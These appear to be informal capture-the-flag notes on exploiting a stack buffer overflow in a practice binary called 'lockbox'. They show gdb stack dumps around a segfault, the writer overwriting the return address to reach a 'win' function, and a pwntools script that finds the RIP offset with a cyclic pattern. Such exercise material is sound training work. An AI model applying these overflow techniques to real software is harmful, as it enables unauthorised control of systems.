 It looks like it did try to jump, but I'm not entirely sure how

Right before return
```
rip            0x4012ad
gdb) $ x/80x $sp
0x7fffffffddf8:    0xf7000000    0x00007fff    0x00000000    0x00000000
0x7fffffffde08:    0x004011f8    0x00000000    0x00000000    0x00000001
```
Right after segfault:
```
rip            0x7ffff7000000      0x7ffff7000000
(gdb) $ x/80x $sp
0x7fffffffde00:    0x00000000    0x00000000 
```


So It is taking in data from the stack, but I'm not sure why mine isn't there
Oh, I sent 42 b's


ACTUALLY 48 b's:
Right before return
```
rip            0x4012ad            0x4012ad <main+181>
(gdb) $ x/80x $sp
0x7fffffffddf8:    0x004011b6    0x00000000    0x00000000    0x00000000
0x7fffffffde08:    0x004011f8    0x00000000    0x00000000    0x00000001
```
After segfault:
```
rip            0x4011f7            0x4011f7 <win+65>
(gdb) $ x/80x $sp
0x7fffffffddf8:    0x42424242    0x42424242    0x00000000    0x00000000
0x7fffffffde08:    0x004011f8    0x00000000    0x00000000    0x00000001
```

Hmm, so those 42's got pushed on it almost seems


Maybe it's time for me to try my cool little script again

YAY Data
```python
def testPld():
	base = b"".join([struct.pack("B", 0x41) for i in range(0,16)])
	data = b"".join([struct.pack("B", 0x50), struct.pack("B", 0x40), struct.pack("B", 0x40), struct.pack("B", 0x00)])
	d2 = b"".join([struct.pack("B", 0x00) for i in range(0,4)])
	d3 = cyclic(500)
	return base + data + d2 + d3

def ripOffset():
	p = process('./lockbox')
	d = p.recvuntil(">")
	p.sendline(testPld())
	p.wait()
	cf = p.corefile
	stack = cf.rsp
	info("rsp = %#x", stack)
	pattern = cf.read(stack, 4)
	rip_offset = cyclic_find(pattern)

	info("rip offset = %d", rip_offset)
```
